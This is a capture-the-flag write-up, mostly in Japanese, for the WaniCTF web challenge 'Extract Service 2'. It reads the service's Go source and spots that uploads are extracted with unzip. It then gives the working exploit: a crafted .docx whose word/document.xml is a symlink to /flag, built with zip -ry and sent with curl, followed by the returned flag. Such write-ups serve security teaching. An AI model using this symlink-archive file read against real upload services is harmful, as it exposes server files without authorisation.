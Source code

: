 # Extract Service 2:Web:191pts
Extract Service 1は脆弱性があったみたいなので修正しました！ 配布ファイルの`sample`フォルダにお試し用のドキュメントファイルがあるのでぜひ使ってください。  
サーバーの`/flag`ファイルには秘密の情報が書いてあるけど大丈夫だよね...?  
We have fixed Extract Service 1 as it had vulnerabilities! Please feel free to use the sample document file in the "sample" folder of the distribution file for trial purposes.  
The secret information is written in the `/flag` file on the server, but it should be safe, right...?  
[https://extract2-web.wanictf.org](https://extract2-web.wanictf.org/)  

[web-extract2.zip](web-extract2.zip)  

# Solution
[Extract Service 1](../Extract_Service_1/)の脆弱性を修正したもののようだ。  
おそらくパストラバーサルが修正されていると思われるが、確認のためソースを読む。  
```go
~~~
		// patched
		extractTarget := ""
		targetParam := c.PostForm("target")
		if targetParam == "" {
			c.HTML(http.StatusOK, "index.html", gin.H{
				"result": "Error : target is required",
			})
			return
		}
		if targetParam == "docx" {
			extractTarget = "word/document.xml"
		} else if targetParam == "xlsx" {
			extractTarget = "xl/sharedStrings.xml"
		} else if targetParam == "pptx" {
			extractTarget = "ppt/slides/slide1.xml"
		} else {
			c.HTML(http.StatusOK, "index.html", gin.H{
				"result": "Error : target is invalid",
			})
			return
		}

~~~
```
任意のファイルを読み取ることができなくなっている。  
ここで、docxの展開部分を見てやると以下の通りであった。  
```go
~~~
func ExtractFile(zipPath, baseDir string) error {
	if err := exec.Command("unzip", zipPath, "-d", baseDir).Run(); err != nil {
		return err
	}
	return nil
}
~~~
```
やはり`unzip`して中身の`word/document.xml`を読んでいるようだ。  
ここでzipファイルにシンボリックリンクを含ませることができることを思い出す。  
つまり、`word/document.xml`を`/flag.txt`へのシンボリックリンクとしておけば読み取ってくれそうである。  
以下の通り加工したdocxを作成して投げる。  
```bash
$ mkdir word
$ ln -s /flag word/document.xml
$ ls -al word/
total 0
drwxrwxrwx 1 ---- ---- 4096 May  5 00:00 .
drwxrwxrwx 1 ---- ---- 4096 May  5 00:00 ..
lrwxrwxrwx 1 ---- ----    5 May  5 00:00 document.xml -> /flag
$ zip -ry hack.docx word/
  adding: word/ (stored 0%)
  adding: word/document.xml (stored 0%)
$ curl -X POST https://extract2-web.wanictf.org/ -F file=@hack.docx -F 'target=docx'
<!DOCTYPE html>
~~~
  <section class="container px-5">
    <div class="mt-5">
      <p>FLAG{4x7ract_i3_br0k3n_by_3ymb01ic_1ink_fi1e}</p>
    </div>
  </section>
~~~
</html>
```
flagが読み取れた。  

## FLAG{4x7ract_i3_br0k3n_by_3ymb01ic_1ink_fi1e}